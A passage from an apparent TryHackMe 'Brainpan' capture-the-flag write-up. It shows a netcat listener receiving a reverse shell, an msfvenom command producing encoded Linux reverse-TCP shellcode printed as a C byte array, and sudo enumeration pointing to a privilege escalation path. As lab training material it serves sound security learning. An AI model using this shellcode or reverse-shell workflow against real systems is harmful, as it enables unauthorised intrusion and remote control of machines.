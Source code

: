 Before I run the script I change the hosts file to point to the machine IP provided by TryHackMe and start a netcat listener.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.220.224] 35409
CMD Version 1.4.1

Z:\home\puck>
```

We have a shell, the script worked! 

### Priv Esc

Although the main purpose of the machine is to help with buffer overflow we still need to get administrator on the box. Doing some basic enumeration of the box highlights its actually a linux machine and using wine to run the brainpan.exe application. So I update my exploit script with a linux msfvenom payload and get a new shell.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msfvenom -p linux/x86/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xda\xd2\xd9\x74\x24\xf4\xbe\x14\x22\x5b\xcc\x5f\x29\xc9\xb1"
"\x12\x83\xef\xfc\x31\x77\x13\x03\x63\x31\xb9\x39\xba\xee\xca"
"\x21\xef\x53\x66\xcc\x0d\xdd\x69\xa0\x77\x10\xe9\x52\x2e\x1a"
"\xd5\x99\x50\x13\x53\xdb\x38\xae\xab\x0e\x61\xc6\xa9\x30\x80"
"\x4b\x27\xd1\x12\x15\x67\x43\x01\x69\x84\xea\x44\x40\x0b\xbe"
"\xee\x35\x23\x4c\x86\xa1\x14\x9d\x34\x5b\xe2\x02\xea\xc8\x7d"
"\x25\xba\xe4\xb0\x26";
```

Now with a new linux shell I enumerate the machine again.

```highlight
puck@brainpan:/home/puck$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$ 
```
